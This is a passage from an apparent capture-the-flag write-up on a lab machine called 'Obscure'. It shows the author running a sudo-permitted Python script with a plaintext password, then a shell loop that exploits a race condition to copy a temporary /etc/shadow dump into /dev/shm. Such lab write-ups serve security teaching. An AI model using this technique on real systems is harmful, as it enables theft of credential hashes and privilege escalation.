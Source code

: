 

I'll create that directory, and then I can auth as robert and run
commands as robert (which isn't exciting since I am already robert):



    robert@obscure:~$ mkdir /tmp/SSH
    robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: robert
    Enter password: SecThruObsFTW
    Authed!
    robert@Obscure:~$ id  
    Output: uid=1000(robert) gid=1000(robert) groups=1000(robert),4(adm),24(cdrom),30(dip),46(plugdev)


    robert@Obscure:~$ exit
    Output: 
    Error: sudo: exit: command not found

    robert@Obscure:~$ ^CTraceback (most recent call last):
      File "/home/robert/BetterSSH/BetterSSH.py", line 57, in <module>
        command = input(session['user'] + "@Obscure$ ")
    KeyboardInterrupt



If I fail auth, I'm dropped out:



    robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: root
    Enter password: root
    Incorrect pass



### Path 1: shadow Race Condition

What I believe is the intended path here is to take advantage of the
fact that the script writes a copy of the `shadow` file to disk, sleeps
and does other work, and then deletes it. That means there's a time in
which I can read it if the permissions aren't set right.

I'll run to constantly be trying to copy whatever is in `/tmp/SSH` to
`/dev/shm`:



    robert@obscure:~$ while true; do cp -R /tmp/SSH/* /dev/shm/ 2>/dev/null; done



I'll SSH in to get another terminal as robert and run `BetterSSH.py`​,
and afterwards, there's a file in `/dev/shm/SSH/`:



    robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: 
    Enter password: 
    Invalid user
    robert@obscure:/dev/shm$ ls
    PMcu46FZ
